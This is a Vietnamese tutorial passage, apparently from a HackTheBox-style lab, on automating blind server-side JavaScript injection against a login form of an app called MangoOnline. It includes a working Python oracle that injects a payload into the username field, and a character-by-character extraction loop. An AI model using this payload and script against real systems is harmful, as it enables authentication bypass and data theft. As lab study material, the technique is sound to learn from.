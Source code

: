 
---
# 8. Tự động hóa Server-Side JavaScript Injection với Blind Injection

1. **Mục tiêu**:
   - Đoạn script sẽ giúp tự động trích xuất `username` của một người dùng từ ứng dụng MangoOnline thông qua phương pháp **Server-Side JavaScript Injection (SSJI)** dạng blind. Đầu tiên, sử dụng tìm kiếm tuyến tính để dò từng ký tự, sau đó tối ưu hóa bằng **tìm kiếm nhị phân**.

2. **Xây dựng hàm `oracle`**:
   - Hàm `oracle()` gửi yêu cầu `POST` tới server và kiểm tra xem người dùng đã đăng nhập thành công chưa.
   - Nếu thành công, hàm trả về `True`; nếu không, trả về `False`.
   
   **Code mẫu cho hàm `oracle`**:
   ```python
   import requests
   from urllib.parse import quote_plus

   # Hàm oracle trả về True hoặc False
   num_req = 0
   def oracle(r):
       global num_req
       num_req += 1
       response = requests.post(
           "http://127.0.0.1/index.php",
           headers={"Content-Type": "application/x-www-form-urlencoded"},
           data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""==""'))
       )
       return "Logged in as" in response.text
   ```

3. **Kiểm tra hàm `oracle`**:
   - Kiểm tra hàm `oracle` hoạt động đúng với các truy vấn đã biết:
     ```python
     assert (oracle('false') == False)  # Kiểm tra với biểu thức sai
     assert (oracle('true') == True)    # Kiểm tra với biểu thức đúng
     ```

4. **Trích xuất `username` bằng tìm kiếm tuyến tính**:
   - Dò từng ký tự của `username` từ vị trí thứ 5 (`HTB{?}`), lặp qua tất cả các ký tự ASCII từ `32` đến `126` cho đến khi tìm thấy ký tự kết thúc `}`.
   
   **Code cho tìm kiếm tuyến tính**:
   ```python
   # Tìm kiếm tuyến tính
   num_req = 0
   username = "HTB{"  # Phần đầu đã biết
   i = 4  # Bắt đầu từ ký tự thứ 5

   while username[-1] != "}":  # Lặp cho đến khi tìm thấy ký tự kết thúc
       for c in range(32, 127):  # Lặp qua các ký tự ASCII có thể in
           if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
               username += chr(c)
               break
       i += 1

   print("Username:", username)
   print("Requests:", num_req)
   ```
